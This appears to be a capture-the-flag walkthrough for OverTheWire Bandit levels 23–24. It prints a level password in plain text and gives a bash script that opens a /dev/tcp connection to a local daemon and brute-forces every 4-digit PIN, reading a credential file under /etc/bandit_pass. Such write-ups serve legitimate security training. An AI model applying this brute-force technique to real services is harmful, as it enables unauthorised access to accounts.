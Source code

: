 Wait for 60sec for cron job to run
```bash
ls -l /tmp/mydir1
cat /tmp/mydir1/bandit24_password
```
**Password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**

## Level 24:
CMD:
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: 
```bash
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
Solution:
```bash
mkdir /tmp/mydir1
cd /tmp/mydir1
nano brute1.sh
```
```bash
#!/bin/bash

# Store the password for bandit24
BANDIT24_PASS=$(cat /etc/bandit_pass/bandit24)

# Open a connection to the daemon on port 30002
exec 3<>/dev/tcp/localhost/30002

# Loop through all possible 4-digit PINs
for pin in {0000..9999}; do
    # Send the password and the current PIN to the daemon
    echo "$BANDIT24_PASS $pin" >&3

    # Read the response from the daemon
    read -r response <&3

    # Print the response for debugging purposes
    echo "Response for PIN $pin: $response"

    # Check if the response contains the password for bandit25
    if [[ "$response" == *"Correct!"* ]]; then
        echo "Found the password: $response"
        break
    fi
done

# Close the connection
exec 3>&-
```
```bash
chmod +x brute1.sh
./brute1.sh
```
Output:
Response for PIN 9298: Correct!
